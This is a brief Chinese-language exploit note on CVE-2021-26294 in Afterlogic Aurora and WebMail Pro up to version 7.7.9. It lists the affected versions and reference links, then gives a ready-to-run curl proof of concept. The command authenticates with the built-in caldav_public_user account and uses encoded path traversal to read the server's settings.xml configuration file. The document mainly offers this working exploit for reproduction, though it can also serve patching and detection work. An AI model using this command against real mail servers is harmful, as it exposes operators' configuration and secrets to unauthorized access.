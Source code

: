 # Afterlogic Aurora & WebMail Pro 任意文件读取CVE-2021-26294

## 漏洞描述

攻击者可以通过caldav_public_user@localhost用户登录，不需要其它用户信息就可以读取配置文件从而获得敏感信息。

参考链接：

- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26294
- https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26294-exposure-of-sensitive-information-vulnerability.md
- https://forum.ywhack.com/thread-115326-1-8.html

## 漏洞影响

```
WebMail Pro ≤ 7.7.9
Afterlogic Aurora ≤ 7.7.9
```

## 漏洞复现

```
curl -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data/settings/settings.xml"
```

